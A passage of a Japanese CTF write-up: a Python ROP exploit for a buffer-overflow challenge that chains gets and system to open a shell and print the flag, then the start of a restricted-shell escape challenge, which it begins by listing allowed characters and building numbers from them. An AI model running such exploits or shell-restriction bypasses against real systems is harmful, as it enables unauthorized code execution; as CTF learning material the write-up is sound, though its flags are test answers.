 ```
basic@vps614257:/tmp/nekoneko$ cat s.py
import struct
import sys

addr_bss = 0x60107b
addr_gets = 0x400520
addr_system = 0x4004f0
addr_pop_rdi = 0x00400743

p64 = lambda x: struct.pack('<Q', x)

payload = 'A' * 152 + p64(addr_pop_rdi) + p64(addr_bss) + p64(addr_gets) + p64(addr_pop_rdi) + p64(addr_bss) + p64(addr_system)
sys.stdout.write(payload + '\n')
sys.stdout.write('sh\n')
basic@vps614257:/tmp/nekoneko$ (python s.py; cat) | ~/basic
cat ~/flag.txt
securinets{ed_for_the_win}
```

フラグが得られました。

```
securinets{ed_for_the_win}
```

### Special Revenge (1000)
> After the disappointment of last year challenge "special", I came this year with a mystery revenge.

与えられた認証情報を使って問題サーバにアクセスしてみると、入力できる文字はかなり制限されているようですが、シェルが立ち上がりました。

`1(試す文字)1` を実行して `11: command not found` というエラーが発生するかしないかを確認することで、以下の文字は使えることが分かりました。

```
1 " $ # ' ( ) ` < { } \
```

まず、`1` 以外の数値の一部は以下のようにして作ることができます。

```
$ echo $((1<<1))
2
$ echo $((1<<1<<1))
4
$ echo $((1<<1<<1<<1))
8
$ echo $((1<<1<<1<<1<<1))
16
$ echo $((1<<1<<1<<1<<1<<1))
32
$ echo $((1<<1<<1<<1<<1<<1<<1))
64
$ # $$ は PID
$ # ${#x} は x の文字数を返すので、PID が 5 桁のときに…
$ echo ${#$}
5
```

